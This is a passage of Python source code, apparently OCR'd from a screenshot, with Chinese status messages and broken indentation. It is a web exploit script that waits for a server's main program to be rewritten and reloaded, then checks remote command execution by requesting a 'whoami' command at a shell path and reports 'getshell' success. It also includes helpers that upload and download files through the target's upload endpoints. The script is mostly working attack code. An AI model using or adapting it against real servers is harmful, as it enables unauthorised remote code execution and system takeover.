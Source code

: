 ```python
for i in range(5):

            time.sleep(1)

print("[√] "+str(5-i)+" 秒后验证重载")

else:

print("[x] 主程序重写失败，程序退出")

        exit()

try:

        response = requests.get(url=url+'s/?c=whoami', timeout=3)

except:

print("[x] 主程序重载失败，程序退出")

        exit()

if response.status_code == 200:

print(f"[√] 恭喜，getshell成功 路径为{url}s/ ")

else:

print("[x] 主程序重载失败，程序退出")

        exit()

def upload(name):

    f = io.BytesIO(b'a' * 100)

    response = requests.post(

            url=url+"upload/",

            files={"file":(name, f)}

)

if 'fileName' in response.text:

        data = json.loads(response.text)

return data

else:

return {'fileName':''}

def download(file):

    response = requests.get(url=url+"uploads/"+file)

if 'fileName' in response.text:

        data = json.loads(response.text)

return data
```
